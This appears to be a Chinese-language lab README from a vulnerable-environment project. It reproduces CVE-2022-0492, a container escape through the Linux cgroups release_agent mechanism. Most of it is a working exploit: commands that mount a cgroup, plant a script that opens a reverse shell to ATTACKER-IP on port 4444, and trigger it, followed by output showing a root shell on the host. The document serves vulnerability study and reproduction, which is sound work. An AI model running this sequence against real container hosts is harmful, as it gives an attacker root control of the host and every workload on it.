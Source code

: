 # Linux内核漏洞导致容器逃逸（CVE-2022-0492）

## 场景介绍

请参考Unit42的[文章](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)。

## 环境搭建

宿主机环境：

- Ubuntu 18.04

首先切换内核，直接通过Metarget安装环境：

```
./metarget cnv install cve-2022-0492 --verbose
```

基础环境准备（以Docker为例，如果已经有任意版本的Docker则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
```

## 漏洞复现

首先在某处开启一个反弹shell监听：

```bash
# ATTACKER-IP
ncat -lvnp 4444
```

接着创建一个禁用了AppArmor和Seccomp的容器进行复现：

```
root@test:~# docker run -it --security-opt apparmor=unconfined --security-opt seccomp=unconfined --rm ubuntu /bin/bash
root@dbfb1efb9b71:/# unshare -UrmC bash
root@dbfb1efb9b71:/# mount -it cgroup -o rdma cgroup /mnt
root@dbfb1efb9b71:/# d=`dirname $(ls -x /mnt/r* |head -n1)`
root@dbfb1efb9b71:/# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@dbfb1efb9b71:/# printf '#!/bin/bash\n/bin/bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1' > /exp.sh; chmod 777 /exp.sh
root@dbfb1efb9b71:/# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@dbfb1efb9b71:/# echo "$t/exp.sh" > $d/release_agent
root@dbfb1efb9b71:/# sh -c "echo 0 >$d/w/cgroup.procs"
```

在`ATTACKER-IP`处收到反弹shell：

```
...
Ncat: Connection from 1.2.3.4.
Ncat: Connection from 1.2.3.4:33868.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@test:/#
```